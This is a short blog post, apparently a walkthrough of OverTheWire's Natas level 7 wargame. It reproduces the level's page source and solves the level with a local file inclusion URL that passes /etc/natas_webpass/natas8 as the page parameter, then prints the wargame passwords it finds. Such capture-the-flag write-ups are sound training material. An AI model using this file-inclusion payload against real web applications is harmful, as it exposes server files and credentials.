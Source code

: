+++
title = "Level 7"
date = 2025-03-27T14:45:00+01:00
draft = false
+++

-   State "DONE"       from              <span class="timestamp-wrapper"><span class="timestamp">[2025-03-27 Thu 14:45]</span></span>

<http://natas7.natas.labs.overthewire.org/>

The next level is a bit more cryptic, all we see is this webpage with a "Home" and "About" section.

{{< figure src="/ox-hugo/clipboard-20250224T165744.png" >}}

A look at the page source for this site shows us a hint though:

```web { linenos=true, linenostart=1 }

<html>
    <head>
        <!-- This stuff in the header has nothing to do with the level -->
        <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
        <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
        <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
        <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
        <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
        <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
        <script>var wechallinfo = { "level": "natas7", "pass": "bmg8SvU1LizuWjx3y7xkNERkHxGre0GS" };</script></head>
    <body>
        <h1>natas7</h1>
        <div id="content">

            <a href="index.php?page=home">Home</a>
            <a href="index.php?page=about">About</a>
            <br>
            <br>
            this is the front page

            <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
        </div>
    </body>
</html>
```

Apparently the password for the user natas8 is in `/etc/natas_webpass/natas8`. Appending this simply to the webpage does not produce the result we want. However, if we look closer at the url constructor, we see that it uses `?page=home` as the constructor for home. So we try and insert the filepath above instead of home:

```web
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

And this gives us the pass for natas8:

-   xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
